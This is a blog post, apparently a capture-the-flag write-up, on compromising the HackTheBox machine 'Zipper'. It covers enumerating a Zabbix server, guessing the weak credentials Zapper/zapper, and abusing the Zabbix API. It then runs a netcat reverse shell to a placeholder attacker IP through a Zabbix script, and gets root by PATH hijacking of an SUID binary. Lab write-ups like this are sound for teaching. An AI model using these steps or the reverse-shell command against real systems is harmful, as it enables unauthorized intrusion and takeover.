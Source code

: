 ```yaml
---
layout: post
title: HackTheBox - Zipper
categories: htb
permalink: /htb-zipper
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/zipper/infocard.png)

Starting off with a nmap scan to determine open ports, thus a potential attack vector!

![NmapScan]({{ site.baseurl }}/assets/htb-images/zipper/NmapScan.jpg)

Nmap showed me that port 80 and 22 are open so I was going to access the web server, but since the header of the nmap for port 80 output says: “It Works” I assumed that I will see the default page of apache, so I went straight to use dirbuster and check for folders and files on the webserver!

![dirsearch]({{ site.baseurl }}/assets/htb-images/zipper/dirsearch.jpg)

Running dirbuster on the server, I found an interesting folder “/zabbix”.So when I entered it, it prompted me with a login page and more interestingly, I was able to login as guest user, which would be very helpful when I enumerate the web app to try to find a potential vulnerability, or potential username or password. After some inspection of the web app, I found that the developer had made a small writing mistake which let me determine that the mistake could be a potential username. The mistake which the developer made was that he accidently typed “Zapper” instead of Zipper which gave me the clue. I found this in the “Trigger” section of the web app and by tweaking the options I was able to find it.

![Zapper-Mistake]({{ site.baseurl }}/assets/htb-images/zipper/Zapper-Mistake.jpg)

Now I went to try and guess the username and password, so that I can login to the Zabbix web app and enumerate more and try to find a way to get into the system. After several attempts to guess the password, I was able to login as user Zapper.

```shell
#User Zapper credentials
Username: Zapper
Password: zapper
```

When I tried to login with the credentials, the web app output showed me that the GUI was disabled and after a short search in the zabbix documentation I saw that I can use the API of Zabbix, “api_jsonrpc”, to enable the web gui and proceed forward. I wrote a simple python script to enable that function.

![WEBGUIDisabled]({{ site.baseurl }}/assets/htb-images/zipper/WEBGUIDisabled.jpg)

Here is the script I wrote:

![getcookiecode2]({{ site.baseurl }}/assets/htb-images/zipper/getcookiecode2.png)

The first part of the code shows that I will connect as user Zapper and will get cookie for this user, notice that “auth” is set to None because I didn't know the cookie yet, but when I run the script it will show it to me. The second part of the code is where the script will tell Zabbix program to add user Zapper in the “Zabbix Super Admin” group, which will allow me to get access to the web GUI.

![enableguicode]({{ site.baseurl }}/assets/htb-images/zipper/enableguicode.jpg)

After I got the cookie from the function “get_auth”, I  had to place it where “auth”:"" line is in the function “get_wgui” which in the second part of the code will enable the web GUI. This will tell the Zabbix Web app that we are logging in as Zapperwho will be placed in the zabbix super admin group. So lastly, once the the python script is ran, the output will be this.

![enableguiloginin]({{ site.baseurl }}/assets/htb-images/zipper/enableguiloginin.jpg)

After I logged in, I noticed two new options in the main page, from which, one of them was the Administration section! I enumerated the administration section and that showed me that user zapper is able to write and execute scripts, so I thought this could lead to a RCE. I saw that there was a PING script and I edited it !The scripts section was under:
> Administration -> Scripts -> Ping

```shell
#Reverse shell command
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 1234 >/tmp/f
```

After I editted the Ping script, I went again to the “Trigger” section and I clicked on Zabbix, which showed me a menu to execute a script, I pressed on Ping and I got reverse shell !

![revshell]({{ site.baseurl }}/assets/htb-images/zipper/revshell.jpg)

When I got the reverse shell, I noticed that the hostname of the machine is a bit weird, so I thought I may have a reverse shell in a docker instance. Now, I had to escape it and I also noticed that when I set the code execution to run through zabbix server, I get a reverse shell in docker, but when I set the code to be executed as zabbix agent, I get a reverse shell in the main system but its very unstable, and I am kicked out in 5 - 10 seconds. I had to think of any way to escape that and get a stable connection in the main system.So I thought why don't I try to upgrade it to TTY shell using python and see if the shell will stay stable. Because the machine didn't have python 2 install, I had to use python 3.

```shell
#Python tty shell spawn command
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Luckily, this helped me to keep my shell open and stable. I just had to copy & paste the command quckily before the shell died. So to get a stable shell in the main system outside docker, I had to do the same for docker.

![stableshell]({{ site.baseurl }}/assets/htb-images/zipper/stableshell.jpg)

Now it was time to enumerate what users are available on the system. There was another user available in the system which is "zapper".

![zapperuser]({{ site.baseurl }}/assets/htb-images/zipper/zapperuser.jpg)

I had to escalate to zapper user before I could get root ! I searched in the system, but I wasn't able to find anything else except a bash script called “backup.sh” in /home/zapper/utils/. This script gave me a password to work with after running "cat" command on it. The script was only doing a backup of the files and scripts of zabbix web app and was saving them as 7z file in /backups/ folder. I tried to find anything interesting in the folder but there was nothing even after extracting the 7z file, so I thought I could try to login as user zapper with `su -l` using the password which I found in backup.sh script. This worked !

![zappershell]({{ site.baseurl }}/assets/htb-images/zipper/zappershell.jpg)

I now checked for the SSH keys of user zapper, I grabbed them and logged in with SSH. Doing another enumerating of the box I found that in folder utils in /home/zapper/, there was a script called “zabbix-service” which was owned by user root and had SUID. This meant that I would be able to run it as root without having to use sudo. This was interesting ! Running cat on the file showed me gibberish, so I used strings command instead. This showed me something interesting.

![stringszabbix-service]({{ site.baseurl }}/assets/htb-images/zipper/stringszabbix-service.jpg)

The script was actually starting the zabbix-agentd.service using systemctl. How could I exploit this ? Well, the other interesting part was that in the script, systemctl wasn't set with its' full path, so I could exploit that by setting a system variable. So now systemctl would be seen in 2 different folders and run twice by the script because it wouldn't know which path exactly to use, so it will use both.
I created a file “systemctl” in the folder /home/zapper/utils/ and wrote inside “/bin/bash” and saved the file. When I exported the path to systemctl file which I created in /home/zapper/utils/, I set the permissions of the newly created file to 777 and checked to see if the system could see the file in the home folder of zapper. Now I just had to run the script and get root !

![roottaken]({{ site.baseurl }}/assets/htb-images/zipper/roottaken.png)

That's the box Zipper from HackTheBox !
